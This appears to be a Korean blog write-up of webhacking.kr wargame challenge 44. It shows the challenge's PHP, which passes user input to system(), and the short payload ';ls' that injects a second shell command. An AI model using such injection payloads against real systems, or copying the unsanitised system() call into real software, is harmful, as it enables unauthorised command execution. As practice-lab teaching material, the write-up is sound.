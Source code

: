 ```yaml
---
title: "[webhacking.kr] 44번 문제 풀이[command injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - command injection
toc: true
toc_sticky: true
toc_label: "44번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 44번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152749393-b116b08b-26e5-42e7-acee-068339b302e4.png)

  ```php
<?php
  if($_POST['id']){
    $id = $_POST['id'];
    $id = substr($id,0,5);
    system("echo 'hello! {$id}'"); // You just need to execute ls
  }
?>
  ```


# 문제 풀이
  다음과 같이 입력해줍니다.

  ```md
  ';ls'
  ```

  를 입력하면 system 함수는 다음과같이 실행되어 bash에서 ls 명령어가 실행됩니다.

  ```bash
echo 'hello! ';ls''
  ```


  ![image](https://user-images.githubusercontent.com/33647663/152749953-81997ede-d705-4493-9344-4479bd94b7ef.png)

  flag 파일의 경로가 나왔으니 해당 파일을 접근해보면 플래그가 나옵니다.

  ![image](https://user-images.githubusercontent.com/33647663/152750009-3139fee1-3cd1-4b36-8551-3a80bd6db1c0.png)

